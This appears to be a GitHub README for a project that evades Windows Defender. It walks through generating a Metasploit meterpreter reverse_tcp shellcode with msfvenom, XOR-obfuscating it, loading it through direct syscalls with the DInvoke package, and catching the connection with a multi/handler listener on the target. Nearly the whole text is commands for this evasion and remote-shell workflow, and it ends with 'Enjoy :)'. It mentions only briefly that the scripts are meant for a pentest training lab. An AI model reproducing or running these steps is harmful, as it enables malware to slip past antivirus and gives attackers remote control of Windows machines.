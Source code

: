 # Bypass-AV-DirectSyscalls
Scripts to bypass Windows Defender antivirus protection using the Direct Syscalls technique with an injection of shellcode previously obfuscated with an XOR function.
These have been used in a pentest training lab and are not intended for use outside this context.

<p align="center">
    This project is translated from :
    <br />
    <a href="https://github.com/Processus-Thief/Bypass-AV-DirectSyscalls"><strong>https://github.com/Processus-Thief/Bypass-AV-DirectSyscalls</strong></a>
  </p>
</div>

<br /><br />

### Usage

1. Generate a Metasploit meterpreter in the form of a shellcode with msfvenom inside your Kali Linux :
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<SERVER> LPORT=<PORT> -f csharp
```
2. Install Visual Studio Code on your PC : https://code.visualstudio.com/download

3. Install C# and PowerShell 7 extensions in VS Code. Open the terminal inside VS Code.

4. Install a .NET SDK (recommended 7.0) : https://dotnet.microsoft.com/en-us/download

5. Create a new DotNet project in Visual Studio Code, its recommended to change directory to your Desktop (create a new folder for it) :
```  
cd Desktop
mkdir XorCipher
cd XorCipher
dotnet new console
```
6. Replace the contents of Program.cs with the contents of XorCipher.cs and replace the shellcode with that generated with msfvenom.
7. Generate the solution in the form of a PE file with its embedded libraries :
```
dotnet publish -p:PublishSingleFile=true -r win-x64 -c Release --self-contained true -p:PublishTrimmed=true
```
8. The exe file will be generated in the folder bin\Release\net7.0\win-x64\publish of the project, run the compiled file in a command prompt :
```
.\XorCipher.exe
```
9. Create a second DotNet project (create a new folder on your Desktop) in another instance of Visual Studio Code :
```
cd Desktop
mkdir DirectSyscalls
cd DirectSyscalls
dotnet new console
```
10. Install the dependency DInvoke :
```
dotnet add package DInvoke --version 1.0.4
```
11. Replace the contents of Program.cs with the contents of DirectSyscalls.cs and replace the shellcode with that generated with XorCipher.exe
12. Generate the solution in the form of a PE file with its embedded libraries, the exe will be generated in the folder bin\Release\net7.0\win-x64\publish of the project :
```
dotnet publish -p:PublishSingleFile=true -r win-x64 -c Release --self-contained true -p:PublishTrimmed=true
```
13. Launch a listener in the metasploit console inside your Kali Linux :
```
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost <SERVER>
set lport <PORT>
exploit
```
14. Launch the compiled exe on the target computer (it must be Windows). Enjoy :)
